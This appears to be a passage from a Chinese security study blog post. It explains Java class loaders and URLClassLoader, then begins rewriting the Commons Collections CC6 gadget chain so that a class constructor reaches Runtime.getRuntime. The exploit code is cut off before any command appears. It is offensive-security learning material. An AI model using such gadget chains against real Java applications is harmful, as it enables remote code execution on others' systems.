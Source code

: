 

由于loadClass是传递，所以只有AppClassLoader重写了loadClass，因为BootstrapClassLoader是C++实现的，已经无需由ExtClassLoader传递上去。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240731113942238.png)

那为什么两个类都没实现findClass来加载类呢？实际上两个类都继承了URLClassLoader，调用URLClassLoader#findClass来通过路径加载类。



## 类加载器之URLClassLoader

上文的双亲委派，类加载器之间并不是继承的关系，而是使用组合关系来复用父加载器。

```java
public abstract class ClassLoader {
  ...
  // 组合
  private final ClassLoader parent;
  protected ClassLoader(ClassLoader parent) {
       this(checkCreateClassLoader(), parent);
  }
  ...
}

```

真实的继承关系如图：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240731111552787.png)

AppClassLoader和ExtClassLoader都是Launcher的静态内部类，继承自URLClassLoader

- SecureClassLoader：扩展了ClassLoader，并为定义具有相关代码源和权限的类提供了额外支持，这些代码源和权限默认情况下由系统策略检索。
- URLClassLoader：继承自SecureClassLoader，支持从jar文件和文件夹中获取class，继承于Classloader，加载时首先去Classloader里判断是否由启动类加载器加载过。

Class.forName()**这个方法只能创建程序中已经引用的类，如果我们需要动态加载程序外的类，Class.forName()是不够的**，这个时候就是需要使用URLClassLoader的时候。

因为newInstance()是调用无参构造函数，所以可以改恶意代码到构造函数内，也可以写到静态代码块或者构造代码块。

把CC6改个构造函数：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.HashMap;
import java.util.Map;


public class CC6TiedMapEntry {
    public CC6TiedMapEntry() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
```